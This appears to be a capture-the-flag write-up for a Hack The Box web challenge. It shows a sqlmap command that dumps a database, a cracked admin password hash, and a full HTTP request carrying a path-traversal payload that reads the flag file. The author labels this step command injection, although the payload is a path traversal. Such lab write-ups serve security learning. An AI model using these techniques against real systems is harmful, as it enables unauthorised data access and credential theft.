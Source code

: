 # Orbital (WEB)

In order to decipher the alien communication that held the key to their location, she needed access to a decoder with advanced capabilities - a decoder that only The Orbital firm possessed. Can you get your hands on the decoder?

## Writeup

1. On checking the source files, there is same sql code from passman challenge, therefore I thought it might have sql injection. After trying manually and having no luck, I moved to sqlmap

I saved the request from burpsuite and pass the req param to sqlmap

```
sqlmap -r req --dump
```

Then, I have cracked the password using dictionary-based attack.
```
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
+----+-------------------------------------------------+----------+
```

2. Login with this credentials, we cannot see the flag in the webpage.

I have exported communication and capture the request in burpsuite and it is having command injection.

Moreover, from `Dockerfile` we can see that flag is here in `/signal_sleuth_firmware`

```
# copy flag
COPY flag.txt /signal_sleuth_firmware
```

I have changed the name parameter in export, therefore the request will look like this:

```
POST /api/export HTTP/1.1
Host: 138.68.158.112:31552
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.158.112:31552/home
Content-Type: application/json;charset=UTF-8
Content-Length: 45
Origin: http://138.68.158.112:31552
DNT: 1
Connection: close
Cookie: session=my-session-cookie

{"name":"../../../../signal_sleuth_firmware"}
```

In response, boom, we get our flag.

## Flag:

`HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}`
